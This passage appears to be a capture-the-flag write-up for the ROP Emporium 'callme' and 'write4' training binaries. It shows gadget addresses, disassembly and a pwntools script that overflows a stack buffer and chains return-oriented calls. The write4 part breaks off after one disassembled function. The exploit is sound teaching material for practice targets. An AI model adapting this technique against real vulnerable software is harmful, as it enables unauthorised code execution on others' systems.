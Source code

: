First, we need to control `rdi`, `rsi`, `rdx` to pass argument. Luckily, these three can help us:
```
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
```

Let's check the address of functions:
```
   4 0x00401810  GLOBAL    FUNC callme_three
...
   8 0x00401850  GLOBAL    FUNC callme_one
...
  11 0x00401870  GLOBAL    FUNC callme_two
```

Then, we need to find how function compares number:
```
0x00007ffff7bd68f8 <+8>:	mov    DWORD PTR [rbp-0x14],edi
0x00007ffff7bd68fb <+11>:	mov    DWORD PTR [rbp-0x18],esi
0x00007ffff7bd68fe <+14>:	mov    DWORD PTR [rbp-0x1c],edx
0x00007ffff7bd6901 <+17>:	cmp    DWORD PTR [rbp-0x14],0x1
0x00007ffff7bd6905 <+21>:	jne    0x7ffff7bd69bb <callme_one+203>
0x00007ffff7bd690b <+27>:	cmp    DWORD PTR [rbp-0x18],0x2
0x00007ffff7bd690f <+31>:	jne    0x7ffff7bd69bb <callme_one+203>
0x00007ffff7bd6915 <+37>:	cmp    DWORD PTR [rbp-0x1c],0x3
```

The answer is clear now, we need to pass 1 to *rdi*, 2 to *rsi*, 3 to *rdx*. And then jump to each function's plt table. Script:
```python
from pwn import *

number = p64(1) + p64(2) + p64(3)
rop = p64(0x401ab0)
offset = 40
shellcode = ""
shellcode += rop + number + p64(0x00401850)
shellcode += rop + number + p64(0x00401870)
shellcode += rop + number + p64(0x00401810)
bin = process('callme')
bin.sendline(offset*'A' + shellcode)
print bin.recvall()
```

## write4

It has a `usefulFunction` which calls `system("ls")` for us. But it's not quite useful:
```
0x0000000000400807 <+0>:	push   rbp
0x0000000000400808 <+1>:	mov    rbp,rsp
0x000000000040080b <+4>:	mov    edi,0x40090c
0x0000000000400810 <+9>:	call   0x4005e0 <system@plt>
0x0000000000400815 <+14>:	nop
0x0000000000400816 <+15>:	pop    rbp
0x0000000000400817 <+16>:	ret    
```

